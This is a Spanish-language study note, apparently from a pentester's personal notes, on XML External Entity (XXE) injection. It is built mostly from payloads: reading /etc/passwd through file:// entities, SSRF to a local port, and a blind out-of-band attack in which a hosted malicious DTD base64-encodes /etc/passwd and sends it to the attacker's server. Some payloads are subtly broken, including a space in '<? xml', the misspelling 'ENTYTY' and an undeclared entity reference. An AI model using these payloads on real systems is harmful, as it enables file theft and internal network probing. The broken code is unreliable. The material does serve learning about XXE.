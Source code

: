 -------
- tags: #xml #web #lfi #SSRF #burpsuite 
------------
# ¿Qué es?
> Hace referencia a XML (eXtensible Markup Language) eXternal Entity Injection y nos permite llegar a ver archivos del equipo a través de etiquetas XML que podemos modificar
W
## Ejemplo de XML normal
```xml
<? xml version="1.0" encoding="UTF-8"?>
<root>
	<name>
		David
	</name>
	<surname>
		Alonso
	</surname>
	<birth>
		05/05/2004
	</birth>
</root>
```

## Ejemplo de Explotación XML

Podemos llegar a representar la misma información que en el ejemplo anterior si hacemos lo siguiente:

```xml
<? xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY myName "David">]>
<root>
	<name>
		&myName;
	</name>
	<surname>
		Alonso
	</surname>
	<birth>
		05/05/2004
	</birth>
</root>```

De este modo, estamos declarando la ENTIDAD "myName" cuyo valor es "David" y llamando más tarde al valor de la entidad con "&myName;"


## XXE ---> LFI

Podemos referenciar a archivos de la siguiente manera:

```xml
<? xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
<root>
	<name>
		&myFile;
	</name>
	<surname>
		Alonso
	</surname>
	<birth>
		05/05/2004
	</birth>
</root>```


De este modo, conseguimos crear la entidad myFile cuyo valor será en contenido del fichero "/etc/passwd" y representarlo a través de "&myFile;"

## XXE ---> SSRF

```xml
<? xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://127.0.0.1:8080/">]>
<root>
	<name>
		&myName;
	</name>
	<surname>
		Alonso
	</surname>
	<birth>
		05/05/2004
	</birth>
</root>```

## XXE ---> RCE

Hay formas de derivar XXE a RCE a través de wrappers de php, [haz clic para saber más](https://airman604.medium.com/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7)



## XXE OOB (Out Of Bound) (Blind)

> Si al explotar la inyección XXE no vemos output, o no podemos mostrar entidades, podremos aun así llegar a explotarlo a través de un XXE OOB.

Declaramos la siguiente estructura XML:
```xml
<? xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://miip/malicious.dtd"> %xxe;]>
<root>
	<name>
		&myFile;
	</name>
	<surname>
		Alonso
	</surname>
	<birth>
		05/05/2004
	</birth>
</root>```

Teniendo un servidor http montado con el fichero malicious.dtd que contenga lo siguiente:

malicious.dtd:
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTYTY &#x25; exfil SYSTEM 'http://miip/?file=%file;'>">
%eval;
%exfil;
```
**(Aclaración: &#x25; es como se representa el % cuando la entidad se encuentra dentro de otra entidad, el % es 25 en hexadecimal)**


Deberíamos de recibir una solicitud que contendrá el archivo /etc/passwd en base64

